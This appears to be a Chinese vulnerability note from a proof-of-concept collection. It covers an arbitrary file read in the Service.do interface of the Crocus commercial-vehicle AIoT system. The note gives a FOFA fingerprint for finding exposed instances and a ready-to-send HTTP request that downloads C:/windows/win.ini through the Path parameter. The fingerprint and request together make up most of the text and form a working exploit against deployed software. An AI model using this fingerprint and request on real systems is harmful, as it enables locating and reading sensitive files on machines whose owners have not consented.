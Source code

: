 **fofa**

```
body="/ThirdResource/respond/respond.min.js"
```

**一、漏洞简述**

锐明技术作为一家专注于AI和视频技术的商用车智能物联（AIoT）解决方案提供商，Crocus系统是其核心产品之一。Crocus系统旨在利用人工智能、高清视频、大数据和自动驾驶技术，帮助商用车减少交通事故和货物丢失，提高企业或车队的运营效率。其Service.do接口存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close


```

